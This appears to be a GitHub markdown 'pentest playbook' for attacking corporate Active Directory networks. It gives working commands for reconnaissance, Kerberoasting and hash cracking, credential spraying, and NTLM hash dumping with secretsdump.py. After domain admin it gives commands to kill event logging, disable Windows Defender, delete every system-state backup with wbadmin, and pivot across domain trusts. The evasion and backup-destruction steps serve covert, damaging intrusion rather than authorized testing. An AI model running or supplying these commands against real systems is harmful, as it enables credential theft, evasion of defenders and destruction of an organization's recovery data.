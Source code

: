 # The Official phasetw0 Corporate Internal Active Directory Pentest Playbook and Knuckles
###### Written by [hypervis0r](https://twitter.com/hypervis0r)

I'll be adding more to this as I own more domains lol

## 🔎 Initial Access
___

#### Identify Target Machines
Identify domain controllers on the network using DNS
```bash
# Linux
dig _ldap._tcp.dc._msdcs.EXAMPLE.COM -t any
dig _ldap._tcp.dc._msdcs.EXAMPLE.COM -t srv

# Windows
nslookup -type=any _ldap._tcp.dc._msdcs.EXAMPLE.COM
nslookup -type=srv _ldap._tcp.dc._msdcs.EXAMPLE.COM
```

Find potential Windows machines using `nmap` along with the network subnet or the given scope of the pentest.
```bash
nmap -p139,445,88,135,389,464 <subnet here> -oG - | awk '/Up$/{print $2}' > windows_boxes.txt
```

#### Low hanging Fruit
Check Windows boxes for common CVEs (EternalBlue, other SMB vulns I can't think of, etc.)
```bash
# nmap scan
nmap -sC -sV -oN box_scan.txt -iL windows_boxes.txt

# crackmapexec scan
cme smb ~/windows_boxes.txt
```

#### Identify critical users
Nine times out of ten, network administrators of a company are admins on the internal domain. Look for staff directories for the company to find potential users to phish/brute-force.
```bash
# Google dork to find staff directory of company
site:"evil.corp" staff directory
```

## 🚩 Lateral movement (after found creds)
___


```
/*
	TODO:
	More AD Flaws (Golden Ticket)
	LSSAS Dumping
*/
```

Repeat these steps for every new better set of credentials you get, all the way until you get Local Admin or Domain Admin.

#### Check common Active Directory flaws
##### Kerberoasting/AS-REPRoasting
Check for users with associated SPNs using impacket's `GetUserSPNs.py`.
```bash
python3 GetUserSPNs.py evil.corp/user:pass -dc-ip dc1.evil.corp -outputfile hashes.tgt
```
After gaining access to the TGT hashes, crack the user password using `hashcat` along with `rockyou.txt` and `OneRuleToRuleThemAll.rule`. This can take a while to crack, even on a powerful home PC.  Unless you have a dedicated cracking machine, I recommend spinning up an Azure instance (specifically `Standard NC6s_v3`).
```bash
hashcat -m 13100 -w 4 -a 0 hashes.tgt rockyou.txt --rule OneRuleToRuleThemAll.rule
```
If no hashes could be cracked, it is unlikely the password is brute-forcable, and you should move on.

#### Pop shell to investigate
Find machines you can potentially log into using your credentials. You can accomplish this using CrackMapExec along with the `windows_boxes.txt` list to scan every windows box, along with its SMB shares, with your creds.
```bash
# Check for shells
cme smb ~/windows_boxes.txt -u 'user' -p 'pass'

# Check for open SMB shares
cme smb ~/windows_boxes.txt -u 'user' -p 'pass' --shares
```

After you gain a shell (or find an interesting open share), look around for saved password files, ways to escalate to local admin, "goodies", etc.

## 🔥 Next steps after Domain Admin
___

#### OPSEC (***These Steps are important!!!***)
Kill the Windows Event Logging service using [phant0m](https://github.com/hlldz/Phant0m) or some other method.

Disable the Windows Defender service, and look for any other EDRs to possibly disable before continuing.
```bash
# Stop the Windows Defender service, then disable it
sc stop "WinDefend"
sc config "WinDefend" start= disabled
```

#### Persistence
Run impacket's `secretsdump.py` to dump NTLM hashes from SAM, NTDS.DIT, and other hives.
```bash
python3 secretsdump.py evil.corp/Administrator:password@dc1.evil.corp 
```

#### Check for backups
You wouldn't want to get discovered and risk a full wipe + backup, would you? If you are looking to make yourself at home for a long time, you may want to look for system backups and promptly destroy them.
```bash
# Delete all system state backups
wbadmin delete systemstatebackup -keepVersions:0
```

#### Enterprise Admin?
The domain you have just owned may have been a child domain of a larger parent domain. Exploit trust boundaries to gain Enterprise Admin, and own the whole tri-state area!

```bash
# Get list of domain trusts to find new DCs to own
nltest /domain_trusts
```

## 📕 References
___

https://social.technet.microsoft.com/wiki/contents/articles/1772.windows-ports-protocols-and-system-services.aspx

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

https://github.com/SecureAuthCorp/impacket

https://github.com/byt3bl33d3r/CrackMapExec

https://security.stackexchange.com/questions/76459/how-to-locate-a-domain-controller-on-a-windows-network-when-not-a-member

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain